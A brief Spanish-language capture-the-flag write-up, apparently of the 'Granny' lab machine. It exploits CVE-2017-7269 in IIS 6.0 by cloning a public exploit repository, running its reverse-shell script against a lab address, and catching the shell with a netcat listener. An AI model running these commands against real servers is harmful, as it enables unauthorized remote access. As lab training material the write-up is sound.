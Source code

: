 #CVE-2017-7269

-----

Se necesita la version microsoft-IIS 6.0 como se puede ver en la foto
![[Granny5.png]]

-----

Con [[git clone]] usamos el comando `git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269` para descargar el repositorio, despues con [[cd]] usamos `cd iis6-exploit-2017-CVE-2017-7269` y luego con ``python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.16.15 443`` vamos a mandarnos la [[Reverse shell]] mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]]


![[Granny6.png]]

![[Granny7.png]]
Ya ganamos acceso a la maquina